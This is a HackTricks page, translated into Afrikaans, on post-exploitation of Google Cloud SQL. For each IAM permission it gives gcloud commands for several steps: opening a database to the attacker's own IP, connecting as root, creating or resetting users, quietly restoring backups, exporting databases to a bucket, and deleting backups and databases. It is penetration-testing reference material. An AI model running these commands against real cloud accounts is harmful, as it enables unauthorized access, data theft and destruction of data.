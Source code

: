 # GCP - Cloud SQL Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud SQL

Vir meer inligting oor Cloud SQL, kyk:

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Om met die databasisse te verbind, **het jy net toegang tot die databasispoort nodig** en moet jy die **gebruikersnaam** en **wagwoord** weet, daar is geen IAM vereistes nie. So, 'n maklike manier om toegang te verkry, veronderstel dat die databasis 'n publieke IP-adres het, is om die toegelate netwerke op te dateer en **jou eie IP-adres toe te laat om toegang te verkry**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Dit is ook moontlik om **`--no-backup`** te gebruik om die **rugsteun** van die databasis te **onderbreek**.

Aangesien dit die vereistes is, is ek nie heeltemal seker waarvoor die toestemmings **`cloudsql.instances.connect`** en **`cloudsql.instances.login`** is nie. As jy dit weet, stuur 'n PR!

### `cloudsql.users.list`

Kry 'n **lys van al die gebruikers** van die databasis:
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Hierdie toestemming laat toe om **nuwe gebruiker binne** die databasis te **skep**:
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Hierdie toestemming laat toe om **die gebruiker binne** die databasis te **opdateer**. Byvoorbeeld, jy kan sy wagwoord verander:

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Back-ups mag **ou sensitiewe inligting** bevat, so dit is interessant om hulle te kontroleer.\
**Herstel 'n rugsteun** binne 'n databasis:
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Om dit op 'n meer stil manier te doen, word dit aanbeveel om 'n nuwe SQL-instansie te skep en die data daar te herstel in plaas van in die tans lopende databasisse.

### `cloudsql.backupRuns.delete`

Hierdie toestemming laat toe om rugsteun te verwyder:
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Eksporteer 'n databasis** na 'n Cloud Storage-bucket sodat jy dit van daar af kan benader:
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName> --database <db>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importeer 'n databasis** (oorskryf) vanaf 'n Cloud Storage-bucket:
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Verwyder 'n databasis van die db-instansie:
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
